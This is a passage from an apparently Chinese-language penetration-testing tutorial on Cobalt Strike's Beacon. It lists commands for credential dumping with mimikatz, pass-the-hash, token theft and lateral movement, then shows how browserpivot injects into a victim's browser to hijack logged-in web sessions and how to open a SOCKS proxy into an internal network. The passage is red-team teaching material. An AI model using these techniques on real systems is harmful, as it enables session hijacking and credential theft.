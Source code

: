 List files    make_token                Create a token to pass credentials    mimikatz                  Runs a mimikatz command    mkdir                     Make a directory    mode dns                  Use DNS A as data channel (DNS beacon only)    mode dns-txt              Use DNS TXT as data channel (DNS beacon only)    mode http                 Use HTTP as data channel    mode smb                  Use SMB peer-to-peer communication    net                       Network and host enumeration tool    note                      Assign a note to this Beacon           portscan                  Scan a network for open services    powershell                Execute a command via powershell    powershell-import         Import a powershell script    ps                        Show process list    psexec                    Use a service to spawn a session on a host    psexec_psh                Use PowerShell to spawn a session on a host    pth                       Pass-the-hash using Mimikatz    pwd                       Print current directory    rev2self                  Revert to original token    rm                        Remove a file or folder    rportfwd                  Setup a reverse port forward    runas                     Execute a program as another user    screenshot                Take a screenshot    shell                     Execute a command via cmd.exe    sleep                     Set beacon sleep time    socks                     Start SOCKS4a server to relay traffic    socks stop                Stop SOCKS4a server    spawn                     Spawn a session     spawnas                   Spawn a session as another user    spawnto                   Set executable to spawn processes into    steal_token               Steal access token from a process    timestomp                 Apply timestamps from one file to another    unlink                    Disconnect from parent Beacon    upload                    Upload a file    wdigest                   Dump plaintext credentials with mimikatz    winrm                     Use WinRM to spawn a session on a host    wmi                       Use WMI to spawn a session on a host</div><p>对于某个模块的使用方式可以直接使用help查看，如：</p><div>beacon&gt; help browserpivotUse: browserpivot [pid] [x86|x64]     browserpivot [stop]    Setup a Browser Pivot into the specified process. To hijack authenticatedweb sessions, make sure the process is an Internet Explorer tab. Theseprocesses have iexplore.exe as their parent process.    Use 'browserpivot stop' to tear down the browser pivoting sessions associated with this Beacon.</div><p>下面主要介绍几个好玩儿的功能。这里为了能快速显示结果，可以设置</p><div>beacon&gt;sleep 0</div><h2>0x051 Browserpivot</h2><p>用户注入受害者浏览器进程，然后开启HTTP代理，之后就可以登录受害者登录的网站了。</p><p>使用方式，ps找到浏览器进程：</p><p><img src="http://image97.360doc.com/DownloadImg/2016/05/2409/72473778_10.png" alt="Alt text" style="max-width: 650px;"></p><p>注入进程：</p><div>beacon&gt; browserpivot 3452 x64</div><p><img src="http://image97.360doc.com/DownloadImg/2016/05/2409/72473778_11.png" alt="Alt text"></p><p>设置本地浏览器代理：</p><p><img src="http://image97.360doc.com/DownloadImg/2016/05/2409/72473778_12.png" alt="Alt text" style="max-width: 650px;"></p><p>当受害者登录某网站账号以后，通过代理，本机浏览器同样登录该网站:</p><p><img src="http://image97.360doc.com/DownloadImg/2016/05/2409/72473778_13.png" alt="Alt text" style="max-width: 650px;"></p><p>当然当被攻击者关闭浏览器的时候，代理也就失效了，关闭此代理可使用如下命令：</p><div>browserpivot stop</div><h2>0x052 Socks</h2><p>可以直接开启socks4a代理，可以通过代理进行内网渗透测试。</p><p>开启socks</p><div>beacon&gt;socks 9999</div><blockquote><p>这里可以选择其中一台，右键Pivoting-&gt;SOCKS Server，则使用此台计算机开启socks代理。</p></blockquote><p>配置proxychains.conf，添加</p><div>socks4